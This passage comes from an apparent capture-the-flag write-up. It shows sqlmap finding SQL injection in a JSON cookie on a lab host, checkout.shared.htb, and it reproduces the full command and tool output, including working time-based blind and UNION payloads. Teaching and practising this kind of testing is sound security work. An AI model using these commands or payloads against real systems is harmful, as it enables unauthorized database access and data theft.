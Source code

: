 I have control over the third column as well, but only for numbers.

#### sqlmap

This SQLI is actually a bit tricky for `sqlmap` to find. If I pass it just the
URL and the cookie, I’ll have to increase the level and risk, and it will take
10 minutes:

    
    
    oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --level 3 --risk 3
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.6.6.12#dev}
    |_ -| . [)]     | .'| . |
    |___|_  [)]_|_|_|__,|  _|
          |_|V...       |_|   https://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage 
    caused by this program
    
    [*] starting @ 13:11:29 /2022-08-12/
    ...[snip]...
    [13:21:25] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    (custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 1763 HTTP(s) requests:
    ---
    Parameter: Cookie #1* ((custom) HEADER)
        Type: time-based blind
        Title: MySQL > 5.0.12 AND time-based blind (heavy query)
        Payload: custom_cart={"' AND 2668=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C)-- rRoO":"1"}
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 4 columns
        Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(0x71707a6b71,0x734c79424b45765669424a43437741676c51796c506b44416258586265587a786d7854696c737a58,0x71717a7871),NULL-- -":"1"}
    ---
    [13:21:27] [INFO] the back-end DBMS is MySQL
    web application technology: Nginx 1.18.0
    back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
    [13:21:27] [INFO] fetched data logged to text files under '/home/oxdf/.sqlmap/output/checkout.shared.htb'
    
    [*] ending @ 13:21:27 /2022-08-12/
    

But given I already know some details about the injection, I can specify
technique and number of columns, and it finds the injection in down to 20
seconds:
